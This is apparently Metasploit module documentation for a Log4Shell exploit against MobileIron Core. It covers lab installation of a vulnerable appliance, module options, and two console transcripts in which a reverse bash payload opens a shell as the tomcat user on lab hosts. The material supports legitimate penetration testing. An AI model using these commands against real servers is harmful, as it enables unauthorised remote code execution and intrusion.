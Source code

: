 ## Vulnerable Application

### Description
MobileIron Core is affected by the Log4Shell vulnerability whereby a JNDI string sent to the server
will cause it to connect to the attacker and deserialize a malicious Java object. This results in OS
command execution in the context of the tomcat user.

This module will start an LDAP server that the target will need to connect to.

### Setup
Once MobileIron Core is installed, no configuration needs to take place. The application is vulnerable out of the box.

### MobileIron Core Appliance ISO Installation on VMWare Fusion

1. Obtain a `mobileiron-##.#.#.#-##.iso` file, the following steps utilize `mobileiron-10.6.0.0-23.iso`.
2. Use the ISO to create "A New Virtual Machine".
3. Customize the VM settings to your liking. I gave the VM 4gb RAM, 4 cores, and changed the network adapter to a bridged mode
so that I can hit it over the network.
4. Boot the new virtual machine.
5. Type `vm-install` at the `boot:` prompt.
6. Wait patiently while the VM reboots and begins the install process. The system *will* reboot when installation completes.
7. When prompted with `Continue with configuration dialog?`, type `yes`
8. Type `q` to clear the license from the screen.
9. Accept the End User License Agreement by typing `yes`
10. Enter a Company Name / contact / email of your choosing. They don't matter.
11. Configure an enable password (e.g. `Labpass1`)
12. Enter an admin user name (e.g. `albinolobster`)
13. Enter and confirm an admin password (e.g. `Labpass1`)
14. Select `a` for the management interface
15. Assign a static IP address and network mask that works with your test network. (e.g. `10.9.49.101` and `255.255.255.0`)
16. Enter your test networks default gateway (e.g. `10.9.49.1`)
17. Enter a fully-qualified domain name for the device (e.g. `lobster.example.com`). Unfortunately, this needs to work. I added a
static DNS enty to my lab network's router.
18. Enter your desired name server. My lab network relies on the aforementioned router (e.g. `10.9.49.1`)
19. Enter blank entries for name server 2 and 3.
20. `yes` to enable remote shell access (why not, right?)
21. `no` to configuring NTP
22. `no` to configuring system clock
23. `yes` to commit changes
24. Type `reload` to restart the system and `yes`, when prompted, to both saving the configuration and proceeding with the reload
25. When the system has restarted, you should now have a vulnerable install of MobileIron Core.
26. Visit `https://ipaddr` to ensure the HTTP server has fully loaded

## Verification Steps

1. Start msfconsole
2. Do: `use exploit/linux/http/mobileiron_core_log4shell`
3. Set the `RHOSTS`, `LHOST`, and `SRVHOST`
4. Do: `run`
5. If the target is vulnerable, the payload should be executed

## Options

## Scenarios

### MobileIron Core 11.2.0.0-31

```
msf6 > use exploit/linux/http/mobileiron_core_log4shell
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/mobileiron_core_log4shell) > set LHOST 10.9.49.248
LHOST => 10.9.49.248
msf6 exploit(linux/http/mobileiron_core_log4shell) > set SRVHOST 10.9.49.248
SRVHOST => 10.9.49.248
msf6 exploit(linux/http/mobileiron_core_log4shell) > set SRVPORT 1389
SRVPORT => 1389
msf6 exploit(linux/http/mobileiron_core_log4shell) > set RHOSTS 10.9.49.100
RHOSTS => 10.9.49.100
msf6 exploit(linux/http/mobileiron_core_log4shell) > run

[*] Started reverse TCP handler on 10.9.49.248:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (10.9.49.248:4444 -> 10.9.49.100:48004) at 2022-07-29 09:46:14 -0700
[*] Server stopped.

id
uid=101(tomcat) gid=102(tomcat) groups=102(tomcat)
uname -a
Linux hackercat.example.com 3.10.0-1160.6.1.el7.x86_64 #1 SMP Tue Nov 17 13:59:11 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

### MobileIron Core 10.6.0.0-23

```
msf6 > use exploit/linux/http/mobileiron_core_log4shell
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/mobileiron_core_log4shell) > set LHOST 10.9.49.248
LHOST => 10.9.49.248
msf6 exploit(linux/http/mobileiron_core_log4shell) > set SRVHOST 10.9.49.248
SRVHOST => 10.9.49.248
msf6 exploit(linux/http/mobileiron_core_log4shell) > set SRVPORT 1389
SRVPORT => 1389
msf6 exploit(linux/http/mobileiron_core_log4shell) > set RHOSTS 10.9.49.101
RHOSTS => 10.9.49.101
msf6 exploit(linux/http/mobileiron_core_log4shell) > run

[*] Started reverse TCP handler on 10.9.49.248:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable.
[+] Delivering the serialized Java object to execute the payload...
[*] Command shell session 1 opened (10.9.49.248:4444 -> 10.9.49.101:35304) at 2022-07-29 10:19:58 -0700
[*] Server stopped.

id
uid=101(tomcat) gid=102(tomcat) groups=102(tomcat)
uname -a
Linux lobster.example.com 3.10.0-1062.4.1.el7.x86_64 #1 SMP Fri Oct 18 17:15:30 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
exit
[*] 10.9.49.101 - Command shell session 1 closed.
```
